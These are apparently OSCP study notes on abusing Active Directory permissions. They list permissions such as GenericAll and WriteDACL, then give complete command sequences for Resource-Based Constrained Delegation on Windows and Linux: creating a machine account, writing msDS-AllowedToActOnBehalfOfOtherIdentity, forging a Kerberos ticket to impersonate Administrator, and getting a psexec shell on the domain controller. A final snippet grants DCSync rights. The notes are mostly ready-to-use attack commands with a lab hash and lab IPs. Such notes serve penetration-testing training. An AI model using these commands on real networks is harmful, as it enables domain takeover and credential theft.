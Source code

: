 # Important Permissions
GenericAll: Full permissions on object
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group


# GENERICALL ON A MACHINE:: Resource Based Constrained Delegation
WUT IS DIS?:
TL;DR
If we have GenericALL/GenericWrite privileges on a machine account object of a domain, we can abuse it and impersonate ourselves as any user of the domain to it. 
For example we can impersonate Domain Administrator and have complete access.

## Exploit on Windows

Tools we are going to use:
PowerView.ps1
Powermad.ps1
Rubeus.exe

```bash
#Import Powermad and use it to create a new MACHINE ACCOUNT
. .\Powermad.ps1
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose

#Import PowerView and get the SID of our new created machine account
. .\PowerView.ps1
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid

#Then by using the SID we are going to build an ACE for the new created machine account using a raw security descriptor:
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

#Next, we need to set the security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

#After that we need to get the RC4 hash of the new machine account's password using Rubeus
Rubeus.exe hash /password:'p@ssword!'

#And for this example, we are going to impersonate Domain Administrator on the cifs service of the target computer using Rubeus
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt

#Finally we can access the C$ drive of the target machine
dir \\TargetMachine.wtver.domain\C$
```

This won't work locally so first copy and paste base64 on kali linux 

![image](https://github.com/nuricheun/OSCP/assets/14031269/558fc1b8-7a19-4b01-bbfc-5da6f262a60c)

```bash
# I just copied and pasted base64 into a file named base
mousepad base
# Decoded it and save it as ticket.kirbi                                                                                                                                                              
cat base | base64 -d > ticket.kirbi
# Convert it to ccache
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache  
psexec.py -k -no-pass resourced.local/administrator@resourcedc.resourced.local -dc-ip 192.168.201.175
```

## Exploit on Linux

Tools we are going to use:
impacket-addcomputer
rbcd.py
impacket-getST
impacket-psexec

```bash
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.x.x -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
python3 rbcd.py -dc-ip 192.168.x.x -t RESOURCEDC -f 'ATTACK' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone
impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip 192.168.x.x
export KRB5CCNAME=./Administrator.ccache
impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.x.x
```

# WriteDacl on DC
```bash
$SecPassword = ConvertTo-SecureString 'P@ssw0rd' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB.local\pwnt', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity pwnt -Rights DCSync
```
